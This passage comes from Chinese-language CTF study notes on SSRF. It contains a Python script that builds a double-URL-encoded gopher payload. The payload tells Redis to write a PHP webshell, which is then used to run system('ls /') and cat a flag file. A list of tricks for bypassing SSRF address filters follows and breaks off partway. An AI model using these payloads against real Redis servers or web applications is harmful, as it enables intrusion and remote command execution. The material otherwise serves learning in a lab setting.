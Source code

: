 ```python
       "config set dir {}".format(path),
       "config set dbfilename {}".format(filename),
       "save"
       ]
if passwd:
    cmd.insert(0, "AUTH {}".format(passwd))
payload_prefix = protocol + ip + ":" + port + "/_"
CRLF = "\r\n"


def redis_format(arr):
    redis_arr = arr.split(" ")
    cmd_ = ""
    cmd_ += "*" + str(len(redis_arr))
    for x_ in redis_arr:
        cmd_ += CRLF + "$" + str(len((x_.replace("${IFS}", " ")))) + CRLF + x_.replace("${IFS}", " ")
    cmd_ += CRLF
    return cmd_


if __name__ == "__main__":
    payload = ""
    for x in cmd:
        payload += parse.quote(redis_format(x))  # url编码
    payload = payload_prefix + parse.quote(payload)  # 再次url编码
    print(payload)
```

注意：gopherus生成的脚本需要需要进行二次url加密

在网址栏的url=后面输入二次加密的payload在输入shell.php?cmd=system("ls /");就可以看到flag文件了，shell.php?cmd=system("cat%20/flag_46017b67405222f15214aa8162614069");可以查看flag

![image-20240119170014342](E:\学习资料\网安\笔记\笔记截图\image-20240119170014342.png)

**URL Bypass**

根据题目提示需要特定的url地址用特殊的方法进行绕过

![image-20240119170802379](E:\学习资料\网安\笔记\笔记截图\image-20240119170802379.png)

绕过ssrf的方法

```
1.攻击本地

http://127.0.0.1:80
http://localhost:22

2.利用[::]

http://[::]:80/ =>http://127.0.0.1

不加端口的话是http://[::]/

3.利用@

这里就是在指定的网址后加@+127.0.0.1

4.利用短域名

http://dwz.cn/11SMa >>> http://127.0.0.1

5.利用特殊域名

```